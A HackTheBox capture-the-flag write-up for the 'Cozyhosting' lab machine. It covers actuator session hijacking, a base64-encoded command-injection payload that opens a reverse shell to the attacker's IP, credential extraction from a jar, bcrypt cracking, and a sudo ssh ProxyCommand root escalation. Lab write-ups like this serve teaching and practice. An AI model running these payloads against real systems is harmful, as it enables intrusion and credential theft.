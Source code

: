```yaml
---
author: Nithissh S
pubDatetime: 2023-09-03T15:22:00Z
modDatetime: 2023-09-03T09:12:47.400Z
title: Cozyhosting - HTB Writeup
slug: cozyhosting-htb-writeup
featured: true
draft: false
tags:
  - Springboot
  - Command Injection 
  - HackTheBox
description:
  An Easy level HackTheBox platform lab machine running Linux containing an open actuator on Spring Boot, Command Injection, application reversal and simple privilege escalation.
---
```


## Service Overview

The machine is assigned IP address 10.10.11.230, let's scan the ports with Nmap:


```sh
$ nmap -sV -sS -Pn -p1-65535 -oN 10.10.11.230 10.10.11.230
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-03 01:46 EDT
Nmap scan report for 10.10.11.230
Host is up (0.064s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


After going to http://10.10.11.230 we get the address cozyhosting.htb, which we will write in /etc/hosts.


```sh
$ echo "10.10.11.230 cozyhosting.htb" | sudo tee -a /etc/hosts
```


## Web Service


Let's use dirsearch to find interesting files.


```sh
$ python3 dirsearch.py -u http://cozyhosting.htb
Sessions found the user kanderson: <http://cozyhosting.htb/actuator/sessions>.

36FC9F46B782A399A71908E661CF5481	"kanderson"
078E0AFFF6038D86B0E4B9503735EE36	"kanderson"

	
EEB6EBC6B06219C8009764BB6ACCF8DD	"UNAUTHORIZED"
6155F2929B8D4814171410BE580B8215	"kanderson"
```


In web-browser click: Inspect -> Storage -> Cookies - Replace to:


```sh
;echo${IFS}"c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMTgvNDQ0NCAwPiYxCg=="|base64${IFS}-d|bash;
```


## Reverse shell:


```sh
$ echo "sh -i >& /dev/tcp/10.10.16.18/4444 0>&1" | base64
c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMTgvNDQ0NCAwPiYxCg==
```


Let's start nc and send the request:

```sh
$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.16.18] from (UNKNOWN) [10.10.11.230] 36184
sh: 0: can't access tty; job control turned off
$ ls /home
$ josh
$ ls
$ cloudhosting-0.0.1.jar
$ id
uid=1001(app) gid=1001(app) groups=1001(app)
$ python3 -m http.server 8083
10.10.16.18 - - [08/Sep/2023 10:29:06] "GET / HTTP/1.1" 200 -
10.10.16.18 - - [08/Sep/2023 10:29:07] code 404, message File not found
10.10.16.18 - - [08/Sep/2023 10:29:07] "GET /favicon.ico HTTP/1.1" 404 -
10.10.16.18 - - [08/Sep/2023 10:29:51] "GET /cloudhosting-0.0.1.jar HTTP/1.1" 200 -
```


## Exploring the application

Let's download the application cloudhosting-0.0.1.jar and open it in jd.

```sh
$ wget http://cozyhosting.htb:8083/cloudhosting-0.0.1.jar
```
In application.properties find the password for postgres, and in scheduled/FakeUser.class find the creds for user kanderson:

```sh
$ jar xf cloudhosting-0.0.1.jar
$ cd BOOT-INF/classes
$ cat application.properties
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```

Let's look at the database:

```sh
psql "postgresql://$DB_USER:$DB_PWD@$DB_SERVER/$DB_NAME"
psql -U postgres -W -h localhost -d cozyhosting
psql "postgresql://postgres:nvzAQ7XxR@localhost:5432/cozyhosting"
psql -U postgres -W -h localhost -d cozyhosting
Password: Vg&nvzAQ7XxR

\list
                                   List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges
-------------+----------+----------+-------------+-------------+-----------------------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
(4 rows)

\c cozyhosting
Password: Vg&nvzAQ7XxR

You are now connected to database "cozyhosting" as user "postgres".
\d
              List of relations
 Schema |     Name     |   Type   |  Owner
--------+--------------+----------+----------
 public | hosts        | table    | postgres
 public | hosts_id_seq | sequence | postgres
 public | users        | table    | postgres
(3 rows)

SELECT * FROM users;
   name    |                           password                           | role
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)
```


#### Hash Identification (bcrypt):

```sh
$ hashcat --help | grep 3200
   3200 | bcrypt $2*$, Blowfish (Unix)      
```


Let's put the hash in the hash.txt file and run hashcat:

```sh
$ hashcat -m 3200 -a 0 hash.txt rockyou.txt
hashcat (v6.1.1) starting...
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited
```


Let's see what user is still on the system:

```sh
$ ls -la /home
Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040750/rwxr-x---  4096  dir   2023-08-08 06:19:05 -0400  josh
Let's try to connect to ssh using:

ssh josh@10.10.11.230
manchesterunited

josh@cozyhosting:~$ cat user.txt
ab5232bdddfdec1731346c7bd7e4e8cc
```


## Privilege escalation

Let's see what the josh user can execute from under sudo: Let's use the gtfobins method.

```sh
josh@cozyhosting:~$ sudo -l
[sudo] password for josh:
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *

sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x

# cd /root
# ls
root.txt
# cat root.txt
f9b3da1faf12ea84a31efc7297b25fc6
```